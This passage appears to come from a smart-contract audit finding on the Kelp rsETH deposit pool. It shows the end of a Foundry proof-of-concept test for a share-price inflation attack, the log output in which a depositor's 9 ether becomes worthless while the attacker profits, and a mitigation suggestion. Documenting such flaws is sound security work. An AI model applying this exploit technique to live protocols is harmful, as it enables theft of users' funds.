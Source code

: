 ```solidity
        uint256 rsWorthOfAttacker_AfterAllTransfers = (rsETHPriceAfterUserDeposits * rseth.balanceOf(attacker)) / 1e18;

        // Attacker's total cost was 10 ether + 1 wei. Even after just a few regular user deposit the attacker gained value.
        assertGt(rsWorthOfAttacker_AfterAllTransfers, 10 ether + 1 wei);
        // Alice's current token worth is 0 after depositing 9 ether
        assertEq(rsWorthOfAlice_AfterTransferring9Ether, 0);

        console2.log("rsETH price after deposits: ", rsETHPriceAfterUserDeposits);
        console2.log("rsETH balance of Alice: ", rsEtHBalanceOfAlice);
        console2.log("Alice's rsETH worth: ", rsWorthOfAlice_AfterTransferring9Ether);
        console2.log("Attackers rsETH worth: ", rsWorthOfAttacker_AfterAllTransfers);
    }
}    
```

The results after running this is:

```solidity
Running 1 test for test/DepositPriceTest.t.sol:LRTDepositPoolDepositAsset
[PASS] test_InflateThePrice_And_StealFromThem() (gas: 759777)
Logs:
  rsETH price after deposits:  19000000000000000001000000000000000000
  rsETH balance of Alice:  0
  Alice's rsETH worth:  0
  Attackers rsETH worth:  19000000000000000001

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.82ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tools Used

Manual review, foundry

## Recommended Mitigation Steps

The best way to prevent this price manipulation is that the protocol team depositing some underlying assets to the pool and minting some `rsETH` before opening the pool to the public. Manipulation will be much harder if the pool has already enough ETH.

---

**Note:** The original submission can be found [here](https://github.com/code-423n4/2023-11-kelp-findings/issues/598).
